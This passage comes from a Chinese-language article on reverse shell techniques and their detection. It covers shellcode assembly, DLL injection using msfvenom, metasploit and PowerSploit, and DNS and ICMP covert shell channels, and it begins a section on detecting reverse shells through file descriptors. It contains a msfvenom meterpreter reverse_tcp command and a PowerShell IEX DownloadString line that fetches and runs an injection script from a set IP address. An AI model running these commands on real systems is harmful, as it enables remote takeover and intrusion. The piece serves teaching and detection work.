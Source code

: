 ```
mov al,0x0b
int 0x80
```

注意，push long 0x6400A8C0 这里就是IP地址，出现了00，在网络传输中会被截断。

```
nasm -f elf reverse_port_asm.asm
ld -o reverse_port_asm reverse_port_asm.o
# 然后抽取十六进制代码
objdump -d ./reverse_port_asm
# 得到shellcode 
```

### 4. 通过dll进程注入执行反弹shell

PowerSploit是又一款基于powershell的后渗透攻击框架。PowerSploit包括Inject-Dll(注入dll到指定进程)、Inject-Shellcode（注入shellcode到执行进程）等功能。
利用msfvenom、metasploit和PowerSploit中的Invoke-DllInjection.ps1 实现dll注入，反弹shell、

- msfvenom生成dll后门：msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.159.134 lport=6667 -f dll -o /var/www/html/PowerSploit/lltest.dll
- metasploit设置payload开启监听
- powershell下载PowerSploit中Invoke-DllInjection.ps1和msfvenom生成的dll后门：IEX (New-Object Net.WebClient).DownloadString("http://192.168.159.134/PowerSploit/CodeExecution/Invoke-DllInjection.ps1")Invoke-DllInjection -ProcessID 5816 -Dll C:UsersAdministratorDesktoplltest.dll

本质上，dll进程注入和上一节介绍的shellcode执行的原理的是一样的。

## 0x6：dns_shell & icmp_shell

本质上说，dns和icmp是一种网络通信方式，使用任何语言都可以借助这两种网络通信方式进行反弹shell交互。

但是我们知道，dns和icmp和tcp/udp不一样，它们都不是直连的网络信道，而是需要通过一个第三方进行消息中转。

- dns（udp直连模式）
  - control server将指令封装成dns包格式，通过udp53直接发送给client
  - victim client从udp53接收到dns包后进行解析，从中提取并解码得到指令，并将执行结果封装成dns包格式，通过udp53返回给server
- dns（authoritative DNS server转发模式）
  - victim client配置好dns resolve（domain nameserver），之后将所有的执行结果和指令请求都以正常dns query的形式发送给local DNS server，随后通过dns递归查询最终会发送到攻击者控制的domain nameserver上
  - control server从dns query中过滤出反弹shell相关的会话通信，并按照dns response的形式返回主控指令。 

 

# 5. 反弹Shell检测思路

## 1.进程 file descriptor 异常检测

### 1.1 检测 file descriptor 是否指向一个socket

以“重定向符”+"/dev/tcp网络通信"Bash反弹Shell这一类最经典的反弹Shell攻击方式为例，这类反弹shell的本质可以归纳为**file descriptor的重定向到一个socket句柄**。
